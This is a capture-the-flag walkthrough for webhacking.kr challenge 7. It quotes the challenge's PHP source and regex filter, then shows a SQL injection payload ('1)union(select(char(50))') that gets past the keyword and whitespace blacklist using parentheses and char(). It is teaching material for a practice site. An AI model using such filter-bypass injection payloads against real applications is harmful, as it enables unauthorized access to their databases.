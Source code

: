 Problem7
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-07/index.php?val=1>   
 
If you enter in the URL, you can see like the bottom photo.     
    
<img src="./image/1.png"/> 
    
Then, if you click the button named auth, the page will show "Access Denied".    
    
Thus, let's go to the view-source link.    

<img src="./image/2.png"/>    
     
### Let's pay attention to bottom the source code.   
    

```
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

We can know that if the value of $data[0] is 2, this problem is solved. 
    
```
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
```   

Let's go back to the front on the source code.    
The value of $go is stored by GET method, so we should input two(2) into <strong>"val"</strong> existing in the url. 
But, <strong>/2|-|\+|from|_|=|\\s|\*|\//i</strong> filter the input data that is (2, Operators, white space etc..). 
Thus, we can access to ASCII CODE, so the ascii value of 2 is 50.   

If you want to know about the <strong>Regular Expression</more>, refer to the bottom url.   
url: <https://developer.mozilla.org/ko/docs/Web/JavaScript/Guide/%EC%A0%95%EA%B7%9C%EC%8B%9D>     

```
select lv from chall7 where lv=($go)
```    
     
To put the value of 2 to $go in the query statment, we can enter the data like <strong>?val=1)union(select(char(50))</strong>.      
I used '(' or ')' because it is not filtered.   

```
select lv from chall7 where lv=(1)union(select(char(50)))
```
    
Through this, we can solve the problem number 7.    
The code produces the random value, so if you enter <strong>?val=1)union(select(char(50))</strong> a few times, it is solved.    

<img src="./image/3.png"/>     



    
